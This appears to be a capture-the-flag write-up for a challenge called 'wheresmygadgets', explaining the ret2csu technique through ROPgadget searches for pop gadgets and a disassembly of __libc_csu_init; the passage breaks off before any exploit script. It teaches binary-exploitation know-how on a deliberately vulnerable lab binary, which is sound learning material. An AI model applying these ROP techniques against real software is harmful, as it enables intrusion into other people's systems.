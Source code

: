 # Challenge Name
wheresmygadgets

## Learning Objective
ret2csu

## Description 
Can you find my missing gadget?

## Difficulty:
Hard

## Guide
Based on the source code, we need 3 arguments for the `flag` function. Simple right? (No.)

We can grab the gadgets for `a` & `b` arguments by doing the following:

```shell
$> ROPgadget --binary chall | grep -E "pop (rdi|rsi)"       
0x00000000004008c3 : pop rdi ; ret
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

However if we try to look for the last gadget (need `pop rdx ; ret`):

```shell
$> ROPgadget --binary chall | grep "pop rdx"      
# no results                                             
```

With the lack of `rdx` gadget, we can attempt a new technique called `ret2csu`.

## ret2csu

Let's look at the contents of `__libc_csu_init` function. This mainly handles stuff related to startup but we will be using it to get our 3rd argument

```shell
pwndbg> disassemble __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400860 <+0>:     push   r15
   0x0000000000400862 <+2>:     push   r14
   0x0000000000400864 <+4>:     mov    r15,rdx
   0x0000000000400867 <+7>:     push   r13
   0x0000000000400869 <+9>:     push   r12
   0x000000000040086b <+11>:    lea    r12,[rip+0x20059e]        # 0x600e10
   0x0000000000400872 <+18>:    push   rbp
   0x0000000000400873 <+19>:    lea    rbp,[rip+0x20059e]        # 0x600e18
   0x000000000040087a <+26>:    push   rbx
   0x000000000040087b <+27>:    mov    r13d,edi
   0x000000000040087e <+30>:    mov    r14,rsi
   0x0000000000400881 <+33>:    sub    rbp,r12
   0x0000000000400884 <+36>:    sub    rsp,0x8
   0x0000000000400888 <+40>:    sar    rbp,0x3
   0x000000000040088c <+44>:    call   0x4005a0 <_init>
   0x0000000000400891 <+49>:    test   rbp,rbp
   0x0000000000400894 <+52>:    je     0x4008b6 <__libc_csu_init+86>
   0x0000000000400896 <+54>:    xor    ebx,ebx
   0x0000000000400898 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x00000000004008a0 <+64>:    mov    rdx,r15
   0x00000000004008a3 <+67>:    mov    rsi,r14
   0x00000000004008a6 <+70>:    mov    edi,r13d
   0x00000000004008a9 <+73>:    call   QWORD PTR [r12+rbx*8]
```